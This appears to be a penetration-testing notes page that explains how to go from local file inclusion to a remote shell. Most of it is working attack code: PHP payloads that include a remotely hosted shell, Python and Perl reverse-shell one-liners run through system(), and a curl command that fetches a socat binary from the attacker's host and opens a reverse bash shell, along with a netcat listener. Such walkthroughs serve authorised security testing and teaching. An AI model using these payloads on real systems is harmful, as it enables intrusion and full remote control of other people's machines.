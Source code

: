 # Gaining remote shell with LFI2RCE

I explored methods to gain a remote shell on the machine. The following methods can be used (with the `VRFY` or `RCPT TO:` command with SMTP explored before) to run remote commands to establish the shell.&#x20;

The link below contains all the reverse shell payload we will be using:

{% embed url="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

For each of the methods, we need to start a TCP listener on a certain port to catch the shell:

{% code title="Start the TCP shell listener on a port" %}
```sh
$ nc -lvp <port>
```
{% endcode %}

#### 1. PHP shell

a. Download the PHP shell from the link above, and load the content into a file such as `shell.php`  (remember to update the host and port values):

* Start a web server from the same directory as the shell

{% code title="Python3 web server" overflow="wrap" %}
```sh
$ python3 -m http.server <port>
```
{% endcode %}

b. Include the address of the web server to load the PHP shell (using RCE we have found earlier):

```php
<?php include('http://<host>:<port>/shell.php'); ?>
```

#### 2. Python shell

a. Identify if Python is available

```php
<?php system('python --version'); ?>
```

b. If available, we can invoke a Python reverse shell:

* Replace the `<host>` and `<port>` with the appropriate values

{% code overflow="wrap" %}
```php
<?php system("python3 -c \"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('<host>',<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);\""); ?>
```
{% endcode %}

#### 3. Perl shell

a.  Identify if Perl is available:

```php
<?php system('perl --version'); ?> 
```

b. If available, we can invoke a Perl shell:

* Replace the `<host>` and `<port>` with the appropriate values

{% code overflow="wrap" %}
```php
<?php system('perl -e \'use Socket;$i="<host>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\''); ?
```
{% endcode %}

#### 4. Socat stable shell

a. Check if Socat is available. However, chances are that it will not be available. We can install the Socat binary and host it from a web server on our machine, and have the target retrieve it.

First, download the Socat binary and host it from the local machine:

{% code overflow="wrap" %}
```sh
$ https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true 

$ python3 -m http.server <port>
```
{% endcode %}

Next, we can send the payload to the target:

{% code overflow="wrap" %}
```php
<?php system('curl http://<host>:8000/socat --output /tmp/socat && chmod +x /tmp/socat &&  /tmp/socat TCP:<host>:8002 EXEC:"bash -li",pty,stderr,sigint,setsid,sane'); ?>
```
{% endcode %}

In this payload, a few things are happening:

1. Retrieve the Socat binary and save it to a temporary directory `/tmp/socat`
2. Add execute permission on the binary
3. Invoke a Socat reverse shell from the target to our machine

* Note that this shell is considered to be more stable as compared to the other options discussed before
